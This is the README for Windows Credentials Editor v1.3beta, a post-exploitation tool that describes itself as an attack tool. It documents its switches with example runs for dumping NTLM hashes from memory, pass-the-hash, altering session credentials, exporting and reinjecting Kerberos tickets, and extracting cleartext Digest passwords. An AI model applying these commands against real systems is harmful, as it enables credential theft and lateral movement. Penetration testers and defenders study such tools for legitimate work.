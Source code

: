 Windows Credentials Editor v1.3beta (32-bit)
(c) 2010, 2011, 2012 Amplia Security, Hernan Ochoa
written by: hernan@ampliasecurity.com
http://www.ampliasecurity.com
-------------------------------------------------------------

Abstract
----------

Windows Credentials Editor (WCE) v1.3beta allows you to

NTLM authentication:

* List logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes)
* Perform pass-the-hash on Windows natively
* Obtain NT/LM hashes from memory (from interactive logons, services, remote desktop connections, etc.) which can be
used to authenticate to other systems. WCE can perform this task without injecting code, just by reading and decrypting information stored in Windows internal memory structures. It also has the capability to automatically switch to code injection when the aforementioned method cannot be performed

Kerberos authentication:

* Dump Kerberos tickets (including the TGT) stored in Windows machines
* Reuse/Load those tickets on another Windows machines, to authenticate to other systems and services
* Reuse/Load those tickets on *Unix machines, to authenticate to other systems and services

Digest Authentication:

* Obtain cleartext passwords entered by the user when logging into a Windows system, and stored by the Windows Digest Authentication security package


Supported Platforms
-------------------
Windows Credentials Editor supports Windows XP, 2003, Vista, 7 and 2008.


Requirements
-------------
This tool requires administrator privileges to dump and add/delete/change NTLM credentials, and to dump cleartext passwords stored by the Windows Digest Authentication security package.

Kerberos tickets can be obtained as a normal user although administrator privileges might be required to obtain session keys depending on the system's configuration.

Please remember this is an attack and post-exploitation tool.

Options
--------
Windows Credentials Editor provides the following options:

Options:  
	-l		List logon sessions and NTLM credentials (default).
	-s		Changes NTLM credentials of current logon session.
			Parameters: <UserName>:<DomainName>:<LMHash>:<NTHash>.
	-r		Lists logon sessions and NTLM credentials indefinitely.
			Refreshes every 5 seconds if new sessions are found.
			Optional: -r<refresh interval>.
	-c		Run <cmd> in a new session with the specified NTLM credentials.
			Parameters: <cmd>.
	-e		Lists logon sessions NTLM credentials indefinitely.
			Refreshes every time a logon event occurs.
	-o		saves all output to a file.
			Parameters: <filename>.
	-i		Specify LUID instead of use current logon session.
			Parameters: <luid>.
	-d		Delete NTLM credentials from logon session.
			Parameters: <luid>.
	-a		Use Addresses.
			Parameters: <addresses>
	-f		Force 'safe mode'.
        -g              Generate LM & NT Hash.
                        Parameters: <password>.
        -K              Dump Kerberos tickets to file (unix & 'windows wce' form
at)
        -k              Read Kerberos tickets from file and insert into Windows
cache
	-w		Dump cleartext passwords stored by the digest authentication package
	-v		verbose output.

Examples:

	* List current logon sessions

C:\>wce -l
WCE v1.0 (Windows Credentials Editor) - (c) 2010 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

meme:meme:11111111111111111111111111111111:11111111111111111111111111111111

	* List current logon sessions with verbose output enabled

C:\>wce -l -v
WCE v1.0 (Windows Credentials Editor) - (c) 2010 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Current Logon Session LUID: 00064081h
Logon Sessions Found: 8
WIN-REK2HG6EBIS\auser:NTLM
        LUID:0006409Fh
WIN-REK2HG6EBIS\auser:NTLM
        LUID:00064081h
NT AUTHORITY\ANONYMOUS LOGON:NTLM
        LUID:00019137h
NT AUTHORITY\IUSR:Negotiate
        LUID:000003E3h
NT AUTHORITY\LOCAL SERVICE:Negotiate
        LUID:000003E5h
WORKGROUP\WIN-REK2HG6EBIS$:Negotiate
        LUID:000003E4h
\:NTLM
        LUID:0000916Ah
WORKGROUP\WIN-REK2HG6EBIS$:NTLM
        LUID:000003E7h

00064081:meme:meme:11111111111111111111111111111111:11111111111111111111111111111111	

	* Change NTLM credentials associated with current logon session

C:\>wce -s auser:adomain:99999999999999999999999999999999:99999999999999999999999999999999
WCE v1.0 (Windows Credentials Editor) - (c) 2010 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Changing NTLM credentials of current logon session (00064081h) to:
Username: auser
domain: admin
LMHash: 99999999999999999999999999999999
NTHash: 99999999999999999999999999999999
NTLM credentials successfully changed!

	* Add/Change NTLM credentials of a logon session (not the current one)

C:\>wce -i 3e5 -s auser:adomain:99999999999999999999999999999999:99999999999999999999999999999999 
WCE v1.0 (Windows Credentials Editor) - (c) 2010 Amplia Security - by Hernan Och
oa (hernan@ampliasecurity.com)
Use -h for help.

Changing NTLM credentials of logon session 000003E5h to:
Username: auser
domain: admin
LMHash: 99999999999999999999999999999999
NTHash: 99999999999999999999999999999999
NTLM credentials successfully changed!

	* Delete NTLM credentials associated with a logon session

C:\>wce -d 3e5
WCE v1.0 (Windows Credentials Editor) - (c) 2010 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

NTLM credentials successfully deleted!

	* Run WCE indefinitely, waiting for new credentials/logon sessions.
	Refresh is performed every time a logon event is registered in the Event Log.

C:\>wce -e

	* Run WCE indefinitely, waiting for new credentials/logon sessions
	Refresh is every 5 seconds by default.

C:\>wce -r

	* Run WCE indefinitely, waiting for new credentials/logon sessions, but refresh every 1 second (by default wce refreshes very 5 seconds)

C:\>wce -r5


	* Generate LM & NT Hash.
     
C:\>wce -g test

WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Herna
n Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Password:   test
Hashes:     01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

	* Dump Kerberos tickets to file (unix & 'windows wce' format)      

C:\>wce -K
WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Herna
n Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Converting and saving TGT in UNIX format to file wce_ccache...
Converting and saving tickets in Windows WCE Format to file wce_krbtkts..
5 kerberos tickets saved to file 'wce_ccache'.
5 kerberos tickets saved to file 'wce_krbtkts'.
Done!

	* Read Kerberos tickets from file and insert into Windows cache

C:\>wce -k
WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Herna
n Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Reading kerberos tickets from file 'wce_krbtkts'...
5 kerberos tickets were added to the cache.
Done!

       * Dump cleartext passwords stored by the Digest Authentication package

C:\>wce -w
WCE v1.3beta (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia Security -
 by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

test\MYDOMAIN:mypass1234
NETWORK SERVICE\WORKGROUP:test



GETLSASRVADDR.EXE
-----------------
This tool can be used to obtain automatically needed addresses for WCE
to be able to read logon sessions and NTLM credentials from memory.

Addresses obtained can then be used with WCE using the -A switch.

This tool requires the dlls symsrv.dll and dbghelp.dll available from the
"Debugging Tools for Windows" package.


Additional Information
----------------------

* http://www.ampliasecurity.com/research.html
* http://www.ampliasecurity.com/research/wcefaq.html
* http://www.ampliasecurity.com/research/WCE_Internals_RootedCon2011_ampliasecurity.pdf
* http://www.ampliasecurity.com/research/wce12_uba_ampliasecurity_eng.pdf


